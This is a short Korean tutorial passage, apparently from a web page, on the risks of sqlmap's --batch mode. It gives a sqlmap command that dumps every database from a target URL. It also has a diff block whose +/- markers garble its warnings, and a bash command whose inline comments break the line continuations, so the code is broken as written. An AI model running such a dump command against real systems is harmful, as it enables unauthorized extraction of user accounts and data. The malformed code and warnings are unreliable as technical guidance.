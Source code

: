 ### `--batch`의 숨은 위험성

```diff
- 경고: 이 모드는 공격의 공격성을 제한하지만
+ 자동으로 중요한 데이터(사용자 계정 등)를 덤프할 수 있음
- 법적 문제 발생 가능성이 있으므로 반드시 허가된 환경에서만 사용
```

### 진정한 "완전 자동화"를 위한 확장 명령어

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch \
  --dump-all  # 모든 DB/테이블 덤프
  --exclude-sysdbs  # 시스템 DB 제외
  --flush-session  # 이전 세션 무시
```

이 명령어 한 줄 뒤에는 수백 개의 SQL 쿼리, 다양한 탐지 기법, 데이터 분석 로직이 숨겨져 있습니다. SQLMap의 자동화 엔진은 실제로 **15만 줄 이상의 Python 코드**로 구현된 지능형 취약점 탐지 시스템입니다.
